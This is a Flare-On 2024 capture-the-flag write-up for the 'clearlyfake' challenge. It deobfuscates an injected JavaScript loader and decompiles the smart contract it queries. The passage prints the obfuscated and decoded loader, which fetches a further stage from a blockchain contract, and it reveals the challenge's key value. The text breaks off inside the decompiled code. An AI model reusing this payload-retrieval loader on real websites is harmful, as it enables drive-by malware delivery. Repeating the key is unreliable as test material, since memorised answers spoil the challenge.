






## Flare-On 2024 - #8 clearlyfake
___

### Description: 

*I am also considering a career change myself but this beautifully broken JavaScript*
*was injected on my WordPress site I use to sell my hand-made artisanal macaroni necklaces,*
*not sure what’s going on but there’s something about it being a Clear Fake?*
*Not that I’m Smart enough to know how to use it or anything but is it a Contract?*

`7zip archive password: flare`

___

### Solution:


For this challenge we are given another obfuscated javascript file: `clearlyfake.js`. We use
[Obfuscator.io Deobfuscator](https://obf-io.deobfuscate.io/) to deobfuscate it:
```js
eval(function (_0x263ea1, _0x2e472c, _0x557543, _0x36d382, _0x28c14a, _0x39d737) {
  _0x28c14a = function (_0x3fad89) {
    return (_0x3fad89 < _0x2e472c ? '' : _0x28c14a(parseInt(_0x3fad89 / _0x2e472c))) + ((_0x3fad89 = _0x3fad89 % _0x2e472c) > 0x23 ? String.fromCharCode(_0x3fad89 + 0x1d) : _0x3fad89.toString(0x24));
  };
  if (!''.replace(/^/, String)) {
    while (_0x557543--) {
      _0x39d737[_0x28c14a(_0x557543)] = _0x36d382[_0x557543] || _0x28c14a(_0x557543);
    }
    _0x36d382 = [function (_0x12d7e8) {
      return _0x39d737[_0x12d7e8];
    }];
    _0x28c14a = function () {
      return "\\w+";
    };
    _0x557543 = 0x1;
  }
  ;
  while (_0x557543--) {
    if (_0x36d382[_0x557543]) {
      _0x263ea1 = _0x263ea1.replace(new RegExp("\\b" + _0x28c14a(_0x557543) + "\\b", 'g'), _0x36d382[_0x557543]);
    }
  }
  return _0x263ea1;
}("0 l=k(\"1\");0 4=k(\"4\");0 1=L l(\"M\");0 a=\"O\";P y j(5){J{0 g=\"K\";0 o=g+1.3.7.u([\"c\"],[5]).v(2);0 q=m 1.3.h({f:a,d:o});0 p=1.3.7.s(\"c\",q);0 9=E.D(p,\"B\").x(\"C-8\");0 6=\"X.Y\";4.z(6,\"$t = \"+9+\"\\n\");0 r=\"Q\";0 w=W;0 i=r+1.3.7.u([\"t\"],[9]).v(2);0 A=m 1.3.h({f:a,d:i},w);0 e=1.3.7.s(\"c\",A);0 S=E.D(e,\"B\").x(\"C-8\");4.z(6,e);F.V(`U N d f:${6}`)}H(b){F.b(\"G R I y:\",b)}}0 5=\"T\";j(5);", 0x3d, 0x3d, "const|web3||eth|fs|inputString|filePath|abi||targetAddress|contractAddress|error|string|data|decodedData|to|methodId|call|newEncodedData|callContractFunction|require|Web3|await||encodedData|largeString|result|new_methodId|decodeParameter|address|encodeParameters|slice|blockNumber|toString|function|writeFileSync|newData|base64|utf|from|Buffer|console|Error|catch|contract|try|0x5684cff5|new|BINANCE_TESTNET_RPC_URL|decoded|0x9223f0630c598a200f99c5d4746531d10319a569|async|0x5c880fcb|calling|base64DecodedData|KEY_CHECK_VALUE|Saved|log|43152014|decoded_output|txt".split('|'), 0x0, {}));
```

Let's clean it up a little bit and add some comments:
```js
eval(function (a, b, c, d, e, f) {
  e = function (arg) {
    return (
        arg < b /* 0x3d */
            ? ''
            : e(parseInt(arg / b /* 0x3d */))) + ((arg = arg % b /* 0x3d */) > 0x23 
                                            ? String.fromCharCode(arg + 0x1d)
                                            : arg.toString(0x24));
  };

  // if (!''.replace(/^/, String)) { ~> always true
    while (c--) {
      f[e(c)] = d[c] || e(c);
      // console.log(c, e(c), d[c], f[e(c)])
    }

  // Build a map `f` like this:
  //   'Y' 'txt' 'txt'
  //   'X' 'decoded_output' 'decoded_output'
  //   'W' '43152014' '43152014'
  //   'V' 'log' 'log'
  //   'U' 'Saved' 'Saved'
  //   'T' 'KEY_CHECK_VALUE' 'KEY_CHECK_VALUE'
  //   'S' 'base64DecodedData' 'base64DecodedData'
  //   /* ... */
  //   'o' 'encodedData' 'encodedData'
  //   'n' '' 'n'
  //   'm' 'await' 'await'
  //   'l' 'Web3' 'Web3'
  //   'k' 'require' 'require'
  //   /* ... */
  //   '3' 'eth' 'eth'
  //   '2' '' '2'
  //   '1' 'web3' 'web3'
  //   '0' 'const' 'const'

    d = [function (arg2) { return f[arg2]; }];
    e = function () {
      return "\\w+";
    };
    c = 0x1;
  // };

  while (c--) {  // 1 iteration
    if (d[c]) {
      // Now go to `a` (`"0 l=k(\"1\");0 4=k(\"4\"); ...`) and substitute every word (i.e., which
      // is a single letter) with the word from `f`:
      //    0 ~> const
      //    l ~> Web3
      //    k ~> require
      //    1 ~> web3
      // So `0 l=k(\"1\");` becomes: `const Web3=require("web3");`
      a = a.replace(new RegExp("\\b" + e(c) + "\\b", 'g'), d[c]);
    }
  }
  return a;
}(
    // a
    "0 l=k(\"1\");0 4=k(\"4\");0 1=L l(\"M\");0 a=\"O\";P y j(5){J{0 g=\"K\";0 o=g+1.3.7.u([\"c\"],[5]).v(2);0 q=m 1.3.h({f:a,d:o});0 p=1.3.7.s(\"c\",q);0 9=E.D(p,\"B\").x(\"C-8\");0 6=\"X.Y\";4.z(6,\"$t = \"+9+\"\\n\");0 r=\"Q\";0 w=W;0 i=r+1.3.7.u([\"t\"],[9]).v(2);0 A=m 1.3.h({f:a,d:i},w);0 e=1.3.7.s(\"c\",A);0 S=E.D(e,\"B\").x(\"C-8\");4.z(6,e);F.V(`U N d f:${6}`)}H(b){F.b(\"G R I y:\",b)}}0 5=\"T\";j(5);",
    // b
     0x3d,
    // c
     0x3d,
    // d
     "const|web3||eth|fs|inputString|filePath|abi||targetAddress|contractAddress|error|string|data|decodedData|to|methodId|call|newEncodedData|callContractFunction|require|Web3|await||encodedData|largeString|result|new_methodId|decodeParameter|address|encodeParameters|slice|blockNumber|toString|function|writeFileSync|newData|base64|utf|from|Buffer|console|Error|catch|contract|try|0x5684cff5|new|BINANCE_TESTNET_RPC_URL|decoded|0x9223f0630c598a200f99c5d4746531d10319a569|async|0x5c880fcb|calling|base64DecodedData|KEY_CHECK_VALUE|Saved|log|43152014|decoded_output|txt".split('|'),
     // e 
     0x0,
     // f
     {}));
```

We do not have to analyze this at all, but I added some commments to explain how it works.
We simply run it and grab the deobfuscated code:
```js
const Web3=require("web3");const fs=require("fs");const web3=new Web3("BINANCE_TESTNET_RPC_URL");const contractAddress="0x9223f0630c598a200f99c5d4746531d10319a569";async function callContractFunction(inputString){try{const methodId="0x5684cff5";const encodedData=methodId+web3.eth.abi.encodeParameters(["string"],[inputString]).slice(2);const result=await web3.eth.call({to:contractAddress,data:encodedData});const largeString=web3.eth.abi.decodeParameter("string",result);const targetAddress=Buffer.from(largeString,"base64").toString("utf-8");const filePath="decoded_output.txt";fs.writeFileSync(filePath,"$address = "+targetAddress+"\\n");const new_methodId="0x5c880fcb";const blockNumber=43152014;const newEncodedData=new_methodId+web3.eth.abi.encodeParameters(["address"],[targetAddress]).slice(2);const newData=await web3.eth.call({to:contractAddress,data:newEncodedData},blockNumber);const decodedData=web3.eth.abi.decodeParameter("string",newData);const base64DecodedData=Buffer.from(decodedData,"base64").toString("utf-8");fs.writeFileSync(filePath,decodedData);console.log(`Saved decoded data to:${filePath}`)}catch(error){console.error("Error calling contract function:",error)}}const inputString="KEY_CHECK_VALUE";callContractFunction(inputString);
```

Let's make it look pretty:
```js
const { Web3 } = require('web3');
const fs = require("fs");
const web3 = new Web3("BINANCE_TESTNET_RPC_URL");

async function callContractFunction(inputString) {
  try {
    const encodedData = "0x5684cff5" + web3.eth.abi.encodeParameters(["string"], [inputString]).slice(2);
    const result = await web3.eth.call({
      to: "0x9223f0630c598a200f99c5d4746531d10319a569",           
      data: encodedData
    });
    // result = 0x5324eab94b236d4d1456edc574363b113cebf09d
    const largeString = web3.eth.abi.decodeParameter("string", result);
    const targetAddress = Buffer.from(largeString, "base64").toString("utf-8");
    fs.writeFileSync("decoded_output.txt", "$address = " + targetAddress + "\\n");

    const newEncodedData = "0x5c880fcb" + web3.eth.abi.encodeParameters(["address"], [targetAddress]).slice(2);
    const newData = await web3.eth.call({
      to: "0x9223f0630c598a200f99c5d4746531d10319a569",
      data: newEncodedData
    }, 43152014); // 0x292728E
    
    const decodedData = web3.eth.abi.decodeParameter("string", newData);
    fs.writeFileSync("decoded_output.txt", decodedData);
    console.log(`Saved decoded data to:${"decoded_output.txt"}`);
  } catch (error) {
    console.error("Error calling contract function:", error);
  }
}
callContractFunction("KEY_CHECK_VALUE"); // "giV3_M3_p4yL04d!"
```

Now it is getting interesting... It is a Web3 challenge :smiley:
Since we do not how Web3 works, we read through:
[Intro to Web3.js - Ethereum Blockchain Developer Crash Course](https://www.dappuniversity.com/articles/web3-js-intro).


We start with the Smart contract `0x9223f0630c598a200f99c5d4746531d10319a569` which we can find
online [here](https://testnet.bscscan.com/address/0x9223f0630c598a200f99c5d4746531d10319a569).
We click the "contract" tab and we see an **Ethereum Virtual Machine (EVM) bytecode**:
```
0x608060405234801561000f575f80fd5b5060043610610029575f3560e01c80635684cff51461002d575b5f80fd5b610047600480360381019061004291906108a1565b61005d565b6040516100549190610927565b60405180910390f35b5f806040518060400160405280601481526020017f5324eab94b236d4d1456edc574363b113cebf09d00000000000000000000000081525090505f83905060118151146100c2577376d76ee8823de52a1a431884c2ca930c5e72bff39250505061074f565b606760f81b815f815181106100da576100d9610940565b5b602001015160f81c60f81b7effffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff19161461012a577340d3256eb0babe89f0ea54edaa398513136612f59250505061074f565b606960f81b8160018151811061014357610142610940565b5b602001015160f81c60f81b7effffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff191614610193577353387f3321fd69d1e030bb921230dfb188826aff9250505061074f565b605660f81b816002815181106101ac576101ab610940565b5b602001015160f81c60f81b7effffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff1916146101fc577387b6cf4edf2d0e57d6f64d39ca2c07202ab7404c9250505061074f565b603360f81b8160038151811061021557610214610940565b5b602001015160f81c60f81b7effffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff191614610265577384abec6eb54b659a802effc697cdc07b414acc4a9250505061074f565b605f60f81b8160048151811061027e5761027d610940565b5b602001015160f81c60f81b7effffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff1916146102ce577353fbb505c39c6d8eeb3db3ac3e73c073cd9876f89250505061074f565b604d60f81b816005815181106102e7576102e6610940565b5b602001015160f81c60f81b7effffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff19161461033757736371b88cc8288527bc9dab7ec68671f69f0e08629250505061074f565b603360f81b816006815181106103505761034f610940565b5b602001015160f81c60f81b7effffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff1916146103a057734b9e3b307f05fe6f5796919a3ea548e85b96a8fe9250505061074f565b605f60f81b816007815181106103b9576103b8610940565b5b602001015160f81c60f81b7effffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff1916146104095773e2e3dd883af48600b875522c859fdd92cd8b4f549250505061074f565b607060f81b8160088151811061042257610421610940565b5b602001015160f81c60f81b7effffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff19161461047257733bd70e10d71c6e882e3c1809d26a310d793646eb9250505061074f565b603460f81b8160098151811061048b5761048a610940565b5b602001015160f81c60f81b7effffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff1916146104db5773632fb8ee1953f179f2abd8b54bd31a0060fdca7e9250505061074f565b607960f81b81600a815181106104f4576104f3610940565b5b602001015160f81c60f81b7effffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff191614610544577383c2cbf5454841000f7e43ab07a1b8dc46f1cec39250505061074f565b604c60f81b81600b8151811061055d5761055c610940565b5b602001015160f81c60f81b7effffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff1916146105ad5773f7fc7a6579afa75832b34abbcf35cb0793fce8cc9250505061074f565b603060f81b81600c815181106105c6576105c5610940565b5b602001015160f81c60f81b7effffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff191614610616577326b1822a8f013274213054a428bdbb6eba267eb99250505061074f565b603460f81b81600d8151811061062f5761062e610940565b5b602001015160f81c60f81b7effffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff19161461067f5773506dffbcdaf9fe309e2177b21ef999ef3b59ec5e9250505061074f565b606460f81b81600e8151811061069857610697610940565b5b602001015160f81c60f81b7effffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff1916146106e85773ce89026407fb4736190e26dcfd5aa10f03d90b5c9250505061074f565b602160f81b81600f8151811061070157610700610940565b5b602001015160f81c60f81b7effffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff19161461073d575f9250505061074f565b81610747906109d1565b60601c925050505b919050565b5f604051905090565b5f80fd5b5f80fd5b5f80fd5b5f80fd5b5f601f19601f8301169050919050565b7f4e487b71000000000000000000000000000000000000000000000000000000005f52604160045260245ffd5b6107b38261076d565b810181811067ffffffffffffffff821117156107d2576107d161077d565b5b80604052505050565b5f6107e4610754565b90506107f082826107aa565b919050565b5f67ffffffffffffffff82111561080f5761080e61077d565b5b6108188261076d565b9050602081019050919050565b828183375f83830152505050565b5f610845610840846107f5565b6107db565b90508281526020810184848401111561086157610860610769565b5b61086c848285610825565b509392505050565b5f82601f83011261088857610887610765565b5b8135610898848260208601610833565b91505092915050565b5f602082840312156108b6576108b561075d565b5b5f82013567ffffffffffffffff8111156108d3576108d2610761565b5b6108df84828501610874565b91505092915050565b5f73ffffffffffffffffffffffffffffffffffffffff82169050919050565b5f610911826108e8565b9050919050565b61092181610907565b82525050565b5f60208201905061093a5f830184610918565b92915050565b7f4e487b71000000000000000000000000000000000000000000000000000000005f52603260045260245ffd5b5f81519050919050565b5f819050602082019050919050565b5f7fffffffffffffffffffffffffffffffffffffffff00000000000000000000000082169050919050565b5f6109bc8251610986565b80915050919050565b5f82821b905092915050565b5f6109db8261096d565b826109e584610977565b90506109f0816109b1565b92506014821015610a3057610a2b7fffffffffffffffffffffffffffffffffffffffff000000000000000000000000836014036008026109c5565b831692505b505091905056fea26469706673582212207d951dae0f9b4dca5413ae16cf510af72d2086d06207e41bf4449be94a73fa1664736f6c634300081a0033
```



Luckily we can decompile this into [Solidity](https://en.wikipedia.org/wiki/Solidity) using
[Dedaub Decompiler](https://app.dedaub.com/):
```solidity
// Decompiled by library.dedaub.com
// 2024.08.29 21:32 UTC
// Compiled using the solidity compiler version 0.8.26

function function_selector() public payable { 
    revert();
}

function testStr(string str) public payable { 
    require(4 + (msg.data.length - 4) - 4 >= 32);
    require(str <= uint64.max);
    require(4 + str + 31 < 4 + (msg.data.length - 4));
    require(str.length <= uint64.max, Panic(65)); // failed memory allocation (too much memory)
    v0 = new bytes[](str.length);
    require(!((v0 + ((str.length + 31 & 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffe0) + 32 + 31 & 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffe0) > uint64.max) | (v0 + ((str.length + 31 & 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffe0) + 32 + 31 & 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffe0) < v0)), Panic(65)); // failed memory allocation (too much memory)
    require(str.data + str.length <= 4 + (msg.data.length - 4));
    CALLDATACOPY(v0.data, str.data, str.length);
    v0[str.length] = 0;
    if (v0.length == 17) {
        require(0 < v0.length, Panic(50)); // access an out-of-bounds or negative index of bytesN array or slice
        v1 = v0.data;
        if (bytes1(v0[0] >> 248 << 248) == 0x6700000000000000000000000000000000000000000000000000000000000000) {
            require(1 < v0.length, Panic(50)); // access an out-of-bounds or negative index of bytesN array or slice
            if (bytes1(v0[1] >> 248 << 248) == 0x6900000000000000000000000000000000000000000000000000000000000000) {
                require(2 < v0.length, Panic(50)); // access an out-of-bounds or negative index of bytesN array or slice
                if (bytes1(v0[2] >> 248 << 248) == 0x5600000000000000000000000000000000000000000000000000000000000000) {
                    require(3 < v0.length, Panic(50)); // access an out-of-bounds or negative index of bytesN array or slice
                    if (bytes1(v0[3] >> 248 << 248) == 0x3300000000000000000000000000000000000000000000000000000000000000) {
                        require(4 < v0.length, Panic(50)); // access an out-of-bounds or negative index of bytesN array or slice
                        if (bytes1(v0[4] >> 248 << 248) == 0x5f00000000000000000000000000000000000000000000000000000000000000) {
                            require(5 < v0.length, Panic(50)); // access an out-of-bounds or negative index of bytesN array or slice
                            if (bytes1(v0[5] >> 248 << 248) == 0x4d00000000000000000000000000000000000000000000000000000000000000) {
                                require(6 < v0.length, Panic(50)); // access an out-of-bounds or negative index of bytesN array or slice
                                if (bytes1(v0[6] >> 248 << 248) == 0x3300000000000000000000000000000000000000000000000000000000000000) {
                                    require(7 < v0.length, Panic(50)); // access an out-of-bounds or negative index of bytesN array or slice
                                    if (bytes1(v0[7] >> 248 << 248) == 0x5f00000000000000000000000000000000000000000000000000000000000000) {
                                        require(8 < v0.length, Panic(50)); // access an out-of-bounds or negative index of bytesN array or slice
                                        if (bytes1(v0[8] >> 248 << 248) == 0x7000000000000000000000000000000000000000000000000000000000000000) {
                                            require(9 < v0.length, Panic(50)); // access an out-of-bounds or negative index of bytesN array or slice
                                            if (bytes1(v0[9] >> 248 << 248) == 0x3400000000000000000000000000000000000000000000000000000000000000) {
                                                require(10 < v0.length, Panic(50)); // access an out-of-bounds or negative index of bytesN array or slice
                                                if (bytes1(v0[10] >> 248 << 248) == 0x7900000000000000000000000000000000000000000000000000000000000000) {
                                                    require(11 < v0.length, Panic(50)); // access an out-of-bounds or negative index of bytesN array or slice
                                                    if (bytes1(v0[11] >> 248 << 248) == 0x4c00000000000000000000000000000000000000000000000000000000000000) {
                                                        require(12 < v0.length, Panic(50)); // access an out-of-bounds or negative index of bytesN array or slice
                                                        if (bytes1(v0[12] >> 248 << 248) == 0x3000000000000000000000000000000000000000000000000000000000000000) {
                                                            require(13 < v0.length, Panic(50)); // access an out-of-bounds or negative index of bytesN array or slice
                                                            if (bytes1(v0[13] >> 248 << 248) == 0x3400000000000000000000000000000000000000000000000000000000000000) {
                                                                require(14 < v0.length, Panic(50)); // access an out-of-bounds or negative index of bytesN array or slice
                                                                if (bytes1(v0[14] >> 248 << 248) == 0x6400000000000000000000000000000000000000000000000000000000000000) {
